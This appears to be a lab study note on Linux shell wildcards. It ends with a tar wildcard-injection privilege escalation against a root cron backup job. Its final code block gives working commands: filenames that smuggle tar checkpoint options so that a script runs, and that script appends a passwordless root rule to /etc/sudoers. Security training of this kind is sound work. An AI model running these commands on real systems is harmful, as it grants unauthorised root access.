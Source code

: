 ## Table of Contents

  - [Table of Contents](#Table\of\Contents)
          - [Example](#Example)

## Table of Contents

          - [Example](#Example)

A wildcard character can be used as a replacement for other characters and are interpreted by the shell before other actions. Examples of wild cards include:

|**Character**|**Significance**|
|:-:|:-:|
|`*`|An asterisk that can match any number of characters in a file name.|
|`?`|Matches a single character.|
|`[ ]`|Brackets enclose characters and can match any single one at the defined position.|
|`~`|A tilde at the beginning expands to the name of the user home directory or can have another username appended to refer to that user's home directory.|
|`-`|A hyphen within brackets will denote a range of characters.|


An example of how wildcards can be abused for privilege escalation is the `tar` command, a common program for creating/extracting archives. If we look at the `man page` for `tar` we see:
```bash
--checkpoint-action=ACTION
--checkpoint=[]
```
`--checkpoint-action`: Permits an `EXEC` action to be executed when a checkpoint is reached. An arbitrary operating system command once the tar command triggers. 
- By creating files with these names, when the wildcard is specified, `--checkpoint=1` and `--checkpoint-action=exec=sh root.sh` is passed to `tar` as command-line options.
###### Example
Consider the *cron job* which is set to back up the `/home/htb-student` directory's contents and create a compressed archive within `/home/htb-student`. the Cron job is set to run every minute. So it is a good candidate for privilege escalation

```bash
echo 'echo "htb-student ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > root.sh

echo "" > "--checkpoint-action=exec=sh root.sh"

echo "" > --checkpoint=1

```






